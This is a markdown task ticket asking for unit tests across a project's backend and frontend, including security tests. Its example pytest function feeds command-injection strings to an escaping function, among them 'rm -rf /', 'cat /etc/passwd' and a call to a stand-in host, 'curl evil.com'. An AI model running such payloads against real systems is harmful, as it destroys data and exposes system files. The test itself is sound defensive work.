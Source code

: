 # Task: Implement Comprehensive Unit Tests

**Priority**: HIGH
**Component**: All
**Type**: Testing Coverage

## Problem
No unit tests exist, making it impossible to verify security fixes or prevent regressions.

## Required Test Coverage

### Backend Tests
1. **API Endpoints**
   - Authentication validation
   - Input validation
   - Error handling
   - Rate limiting

2. **Security Tests**
   - Command injection attempts
   - SQL injection attempts
   - Path traversal attempts
   - CSRF protection

3. **Business Logic**
   - Task creation flow
   - Container management
   - Git operations

### Frontend Tests
1. **Component Tests**
   - Rendering with different props
   - User interactions
   - Error states

2. **Security Tests**
   - XSS prevention
   - Sanitization

3. **API Integration**
   - Request formatting
   - Error handling

## Test Structure
```
tests/
├── backend/
│   ├── test_api_auth.py
│   ├── test_api_tasks.py
│   ├── test_security.py
│   ├── test_container_manager.py
│   └── test_git_operations.py
└── frontend/
    ├── components/
    ├── lib/
    └── security/
```

## Implementation Steps
1. Set up pytest for backend
2. Set up Jest/React Testing Library for frontend
3. Create test fixtures and mocks
4. Write security-focused tests first
5. Add business logic tests
6. Integrate with CI/CD
7. Aim for 80% coverage

## Example Security Test
```python
def test_command_injection_prevention():
    """Test that command injection is prevented"""
    malicious_prompts = [
        "test; rm -rf /",
        "test && cat /etc/passwd",
        "test`whoami`",
        "test$(curl evil.com)"
    ]
    
    for prompt in malicious_prompts:
        escaped = escape_shell_input(prompt)
        # Verify no shell metacharacters remain
        assert ";" not in escaped
        assert "&&" not in escaped
        assert "`" not in escaped
        assert "$(" not in escaped
```

## Acceptance Criteria
- [ ] 80% code coverage achieved
- [ ] All security vulnerabilities have tests
- [ ] Tests run in CI/CD pipeline
- [ ] Clear test documentation
- [ ] Fast test execution (<5 minutes)